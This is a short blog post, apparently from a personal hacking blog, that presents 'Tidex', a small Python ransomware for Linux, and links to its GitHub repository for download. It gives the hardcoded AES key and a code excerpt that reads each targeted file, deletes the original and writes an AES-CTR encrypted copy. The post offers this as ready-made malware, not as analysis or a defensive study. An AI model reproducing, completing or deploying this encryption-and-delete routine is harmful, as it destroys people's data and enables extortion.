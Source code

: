 ```yaml
---
title: "[EN] Tidex Ransomware"
excerpt: "[EN] Ransomware Tidex for Linux"
date: "Jan 30 2023"
cover_image: "/blog/rtidex.webp"
alt: "Ransomware"
tags1: "Python"
tags2: "Hacking"
---
```


# Tidex
Simple little Ransomware, only works to encrypt files in the directory path Desktop and subdirectories.

&nbsp;
# Important
At the moment it can only be executed on Linux machines. it lacks decryption function.
The KEY is: hkpykiiqftupr3okl04azj

&nbsp;

Code Example

```python
def _lock():
    for files in all_Ext:
        for _dotFile in glob.glob(files):
            print(_dotFile)
            f = open(f'{__dir()}/{_dotFile}', 'rb')
            dataArr = f.read()
            f.close()
            os.remove(f'{__dir()}/{_dotFile}')
            key = "hkpykiiqftupr3okl04azj"
            aes = pyaes.AESModeOfOperationCTR(key)
            EncryptData = aes.encrypt(dataArr)
            newArr = _dotFile.replace(char, "") + Ext
            newArr = open(f'{newArr}', 'wb')
            newArr.write(EncryptData)
            newArr.close()
```

# [Dowload Here From GitHub](https://github.com/Rawierdt/Tidex)

# Thx
# ~ Rawier.
